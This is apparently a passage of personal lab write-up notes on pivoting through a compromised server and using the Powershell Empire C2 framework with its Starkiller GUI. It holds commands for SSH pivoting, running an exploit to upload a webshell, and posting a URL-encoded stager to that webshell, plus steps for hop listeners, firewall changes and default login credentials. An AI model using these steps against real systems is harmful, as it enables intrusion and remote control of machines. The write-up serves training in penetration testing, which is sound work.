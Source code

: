 ```shell
#we can confirm it is listening on port 47202

#on attacker
#copy multi/launcher stager from Starkiller
#URL-encode the stager and execute it using the webshell uploaded earlier

sshuttle -r root@10.200.81.200 --ssh-cmd "ssh -i id_rsa" 10.200.81.0/24 -x 10.200.81.200
#connect to compromised server if not connected

./43777.py
#exploit to upload webshell

curl -X POST http://10.200.81.150/web/exploit-sv.php -d "a=<URL-encoded stager here>"
#now we have an agent in starkiller

#use modules in starkiller
```

* C2 (Command and Control) Frameworks are used to consolidate attacker's position within network & simplify post-exploitation steps, and providing red teams with collaborative features.

* ```Powershell Empire``` (or Empire) is a C2 framework built to attack mainly Windows targets; it has a GUI extension 'Starkiller'.

* After starting the Empire server, we can use the command ```starkiller``` to get the GUI extension running; creds for login - "empireadmin:password123".

* Sections of Empire:

  * Listeners - listen for connection

  * Stagers - payloads to create reverse shell; delivery mechanism for agents

  * Agents - equivalent of Metasploit sessions

  * Modules - used in conjunction with agents for further exploitation

  * Plugins - extend functionality of framework

* Create listener in Starkiller GUI using "Create" option - "Type" should be set to "http", and we can set other fields before clicking "Submit".

* Similarly, we can create stager using the Stagers menu given and configuring the option to "multi/bash"; set other fields as required.

* We can execute the stagers on target machine to get an agent being received by our waiting listener on Starkiller.

* In Empire, "hop listeners" are used for getting agents back from a target with no outbound access; we can setup a hop listener in Starkiller with the compromised web server as host.

* So, for the hop listener, we can set type 'http_hop', host as 'http://10.200.81.200:47202', port as '47202' and RedirectListener as our existing "http" listener we setup earlier.

* Now, we need to get an agent back from the Git Server:

  * Setup 'http' and 'http_hop' listener if not setup already
  * Generate 'multi/launcher' stager with the 'Listener' option set to the 'http_hop' listener created earlier
  * In the root SSH session for the compromised server (10.200.81.200), download the 'http_hop' files from attacker machine
  * Disable the required port '47202' on the ```firewall-cmd```
  * Serve the files using PHP server
  * Use ```cURL``` and the webshell backdoor uploaded earlier in Git server, and execute the URL-encoded stager
  * After sending the stager web request, we will get an agent in Starkiller
